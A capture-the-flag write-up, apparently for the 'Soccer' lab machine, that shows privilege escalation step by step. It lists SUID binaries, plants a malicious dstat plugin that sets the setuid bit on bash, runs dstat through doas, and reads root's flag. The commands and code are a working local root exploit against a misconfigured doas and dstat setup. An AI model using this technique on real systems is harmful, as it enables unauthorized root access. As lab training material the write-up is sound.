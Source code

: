 1) I search file with perm 4000:
```
player@soccer:/$ find / -perm -4000 2>/dev/null | grep "/bin/"
/usr/local/bin/doas
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
/snap/core20/1695/usr/bin/chfn
/snap/core20/1695/usr/bin/chsh
/snap/core20/1695/usr/bin/gpasswd
/snap/core20/1695/usr/bin/mount
/snap/core20/1695/usr/bin/newgrp
/snap/core20/1695/usr/bin/passwd
/snap/core20/1695/usr/bin/su
/snap/core20/1695/usr/bin/sudo
/snap/core20/1695/usr/bin/umount
```

2) So from the `doas` configure, it seems that we can run `/usr/bin/dstat` as root. This can help us to PE
3) From reading `https://linux.die.net/man/1/dstat`, dstat can be used to monitor and view system resources. And it supports customised plugins. Therefore, we can create a malicious plugin that executes our code then run dstat with root privielge. See the following example

```
Files
Paths that may contain external dstat_*.py plugins:

~/.dstat/
(path of binary)/plugins/
/usr/share/dstat/
/usr/local/share/dstat/
```

4) Search to locate `dstat` directory:
```
player@soccer:/usr/local/bin$ find / -type d -name dstat 2>/dev/null
/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat
```

5) Create a plugin called `dstat_meow.py` with the following content under `/usr/local/share/dstat/`:
```
nano /usr/local/share/dstat/dstat_meow.py
```
```python
import os
os.system('chmod +s /usr/bin/bash')
```

6) Then run `dstat` with root to trigger the plugin to get root:
```
player@soccer:/usr/local/bin$  doas -u root /usr/bin/dstat --meow
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
Module dstat_meow failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
player@soccer:/usr/local/bin$  bash -p
bash-5.0# whoami
root
```
7) I read the root.txt:
```
bash-5.0# cat /root/root.txt
e60d5aeb00f96fa88545bce70d3a660a
```
